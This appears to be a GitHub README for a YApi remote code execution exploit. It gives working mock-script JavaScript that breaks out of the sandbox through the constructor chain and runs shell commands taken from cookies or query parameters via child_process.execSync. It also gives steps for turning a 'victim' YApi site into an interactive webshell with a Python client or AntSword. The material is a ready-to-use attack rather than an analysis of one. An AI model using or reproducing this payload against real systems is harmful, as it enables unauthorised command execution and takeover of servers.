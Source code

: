 # yapi-rce-webshell
Yapi mock script RCE another version. Webshell way.

https://github.com/YMFE/yapi/issues/2099

# funny things 

usage:

1. victim yapi website
2. register account
3. craete project and create api in it
4. create mock script like 
```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("cd "+cookie.dir+";"+cookie.cmd).toString()
// you can also add exec function to do some async jobs like running enum scripts
```
5.  use python script to connect webshell and interactive

```bash
python3 webshell.py {mock address like: http://whereisthevictim/mock/222/test/test } -i # interactive mode
# or
python3 webshell.py {mock address like: http://whereisthevictim/mock/222/test/test} {cmd dir,you can use "."} {command location}
```

# AntSword Alternative

1. Same as usage
2. But Create an API With Advanced Mock POST Method.
```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync(query.data).toString()
// you can also add exec function to do some async jobs like running enum scripts
```
3. Open AntSword
4. Create with Config like
- Type: CMDLINUX
- Pass: data
- URL: mock url in Yapi config
- encoder/decoder: default
5. enjoy your webshell
